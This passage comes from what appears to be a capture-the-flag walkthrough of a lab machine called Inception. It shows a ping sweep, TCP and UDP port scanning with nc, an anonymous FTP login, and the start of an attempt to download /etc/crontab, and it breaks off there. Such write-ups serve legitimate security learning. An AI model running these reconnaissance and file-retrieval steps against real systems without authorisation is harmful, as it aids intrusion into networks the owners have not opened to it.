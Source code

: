 From the output, we are able to find the IP address of the subnet as 192.168.0.1

```
root@Inception:/# for i in {1..254}; do (ping -c 1 192.168.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 192.168.0.1: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 192.168.0.10: icmp_seq=1 ttl=64 time=0.023 ms
root@Inception:/# 
```

Next, let us use ```nc``` to identify the open TCP ports on this machine. From the output, we can see that we have both port 21 and port 22 that are open on this machine. 

```
root@Inception:/# nc -zv 192.168.0.1 1-65535 2>&1 | grep -v refused
Connection to 192.168.0.1 21 port [tcp/ftp] succeeded!
Connection to 192.168.0.1 22 port [tcp/ssh] succeeded!
Connection to 192.168.0.1 53 port [tcp/domain] succeeded!
```

Afterwards, let us use ```nc``` again to identify the open UDP ports on this machine. 

```
root@Inception:/# nc -uzv 192.168.0.1 1-65535 2>&1 | grep -v refused
Connection to 192.168.0.1 53 port [udp/domain] succeeded!
Connection to 192.168.0.1 67 port [udp/bootps] succeeded!
Connection to 192.168.0.1 69 port [udp/tftp] succeeded!
root@Inception:/# 
```

### Exploiting FTP on 192.168.0.1
Let us first try to do an anonymous login on the FTP on port 21 in 192.168.0.1

```
root@Inception:/# ftp 192.168.0.1
Connected to 192.168.0.1.
220 (vsFTPd 3.0.3)
Name (192.168.0.1:cobb): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

We realized that we are unable to write files using FTP as we do not have the permissions to do so. 

```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
550 Permission denied.
```

However, we realize that we are able to download files using FTP. Using this, we can download the ```crontab`` file from the /etc directory
